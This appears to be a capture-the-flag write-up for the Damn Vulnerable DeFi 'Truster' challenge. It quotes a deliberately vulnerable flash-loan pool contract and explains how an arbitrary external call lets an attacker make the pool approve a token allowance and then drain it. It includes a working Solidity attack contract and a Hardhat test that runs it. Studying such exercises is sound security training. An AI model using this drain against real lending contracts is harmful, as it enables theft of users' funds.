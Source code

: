 # 03_Truster

## Challenge

More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.

The pool holds 1 million DVT tokens. You have nothing.

To pass this challenge, take all tokens out of the pool. If possible, in a single transaction.

You are provided with the code for the flash loan providing pool:

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "../DamnValuableToken.sol";

/**
 * @title TrusterLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract TrusterLenderPool is ReentrancyGuard {
    using Address for address;

    DamnValuableToken public immutable token;

    error RepayFailed();

    constructor(DamnValuableToken _token) {
        token = _token;
    }

    function flashLoan(uint256 amount, address borrower, address target, bytes calldata data)
        external
        nonReentrant
        returns (bool)
    {
        uint256 balanceBefore = token.balanceOf(address(this));

        token.transfer(borrower, amount);
        target.functionCall(data);

        if (token.balanceOf(address(this)) < balanceBefore)
            revert RepayFailed();

        return true;
    }
}
```

## Solution

If we take a look at the test case, we see that we have to have the pool's balance at the end and the pool should not have any money anymore. 

We can achieve this by exploiting that the pool verifies that a loan was paid back by checking if its token balance is the same as before the loan was issued. This doesn't include allowances.

What we can do is give the loan to the pool itself and then call the token.approve() function to approve ourselves for spending all the tokens money. Then we return it and the balance is still the same. The problem is that now we can spend all the pool money without it checking. We now send all its money to the user and are done. I implemented a small attack contract that does that, as I am not a big hardhat enjoyer:

```solidity
// SPDX-License-Identifier: UNLICENSED

pragma solidity ^0.8.0;

import "./TrusterLenderPool.sol";
import "../DamnValuableToken.sol";

contract Attack_Truster {

    address owner;

    function getEmBoyz(address _pool, address _token) public
    {
        owner = msg.sender;
        DamnValuableToken token = DamnValuableToken(_token);
        TrusterLenderPool pool = TrusterLenderPool(_pool);

        pool.flashLoan(token.balanceOf(_pool), _pool, _token, abi.encodeWithSignature("approve(address,uint256)", address(this), token.balanceOf(_pool)));

        DamnValuableToken(token).transferFrom(_pool, owner, DamnValuableToken(token).balanceOf(_pool));
    }
}
```

We can then call this the same way as in the last challenge:

```js
it('Execution', async function () {
    /** CODE YOUR SOLUTION HERE */

    const Attack_Truster = await ethers.getContractFactory('Attack_Truster', player);
    attack = await Attack_Truster.deploy();
    await attack.connect(player).getEmBoyz(pool.address, (await pool.token()));
});
```

This way we have solved the chall (in 1 tx).
